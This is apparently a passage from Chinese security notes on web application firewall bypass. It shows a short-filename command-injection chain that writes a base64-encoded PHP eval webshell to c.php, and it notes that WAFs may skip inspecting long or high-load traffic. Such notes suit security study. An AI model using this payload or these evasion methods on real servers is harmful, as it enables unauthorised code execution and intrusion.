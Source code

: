```
w>AgZ\\
w>waH\\
w>PD9\\
w>o\ \\
w>ech\\
ls -t>ls
sh ls
```

- w 长度最短的命令
- ls -t 以创建时间来列出当前目录下所有文件
- 文件列表以[ [ 换 行符] ]分割每个文件
- 引入 `\` 转义ls时的换行
- 换行不影响命令执行
- 成功构造任意命令执行，写入Webshell
```bash
ls -t
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7 | base64 -d>c.php
```

---

## 来源

![image](../../../assets/img/安全/笔记/waf总结/7.jpg)

---

## 性能角度

**性能检测**

WAF 在设计的时候都会考虑到性能问题，例如如果是基于数据包的话会考虑检测数据包的包长，如果是基于数据流的话就会考虑检测一条数据流的多少个字节。一般这类算检测的性能，同时为了保证 WAF 的正常运行，往往还会做一个 bypass 设计，在性能如 cpu 高于 80% 或则内存使用率高于如 80% 是时候，会做检测 bypass，以保证设备的正常运行。

现在问题就是检测多长呢？例如我用 HTTP POST 上传一个 2G 的文件，明显不可能 2G 全做检测不但耗 CPU，同时也会耗内存。因此在设计 WAF 的时候可能就会设计一个默认值，有可能是默认多少个字节的流大小，可能是多少个数据包。
